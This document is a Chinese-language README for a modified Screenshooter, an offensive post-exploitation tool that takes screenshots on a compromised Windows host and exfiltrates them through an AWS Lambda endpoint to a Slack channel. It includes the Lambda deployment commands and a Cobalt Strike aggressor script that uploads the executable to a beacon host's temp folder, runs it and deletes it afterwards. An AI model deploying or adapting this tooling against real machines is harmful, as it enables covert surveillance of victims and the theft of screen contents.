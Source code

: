 
## 源代码 : [https://github.com/FortyNorthSecurity/Screenshooter](https://github.com/FortyNorthSecurity/Screenshooter)
## 功能
截图之后上传到slack可以直接查看：

![](screen.gif)

## 新增上传图片函数（网上抄的）
上传截图到AWS的lambda，然后转发给slack的机器人，这样截图之后可以直接在slack里面看得到。
### ~~部署lambda(截屏文件2M左右lambda函数会出错，建议部署自己服务器或者cloudfront之类的)~~
### PS. 部署到lambda之后在配置里面修改默认执行时间为6分钟，大概可以(未测试）
首先修改`lambda/app.py`文件,替换自己的slack的token和channel，然后部署到AWS：
```
cd lambda
virtualenv venv -p python3
. venv/bin/activate
pip install Flask
pip freeze > requirements.txt
sls plugin install -n serverless-wsgi
sls plugin install -n serverless-python-requirements

本地测试: sls wsgi serve
远程部署: sls deploy
查看日志: sls logs -f app
```
部署之后，会有一个endpoints，上传接口是: `https://xxxx.execute-api.ap-northeast-1.amazonaws.com/dev/upload`
![](lambda.png)

替换上传[接口](https://github.com/JKme/Screenshooter/blob/master/Screenshooter/Program.cs#L203)之后编译即可使用。

PS: 直接修改源代码上传到slack也是可以的

### CNA
```
 item "screenshots" {
            $bid = $1;
            $dialog = dialog("Upload Screenshots", %(UploadPath => "C:\\Windows\\Temp\\", bid => $bid), &screenshots);
            drow_text($dialog, "UploadPath",  "path: ");
            dbutton_action($dialog, "ok");
            dialog_show($dialog);
        }

        sub screenshots {
            # switch to specify path
            bcd($bid, $3['UploadPath']);
            bsleep($bid, 0 ,0);
            $bin = $3['UploadPath'];
            bupload($bid, script_resource("/script/Screenshooter.exe"));
            bshell($bid, "$bin $+ Screenshooter.exe")
            bshell($bid, "del $bin $+ Screenshooter.exe")
            # show_message("Executing cmmand!");
        }
```
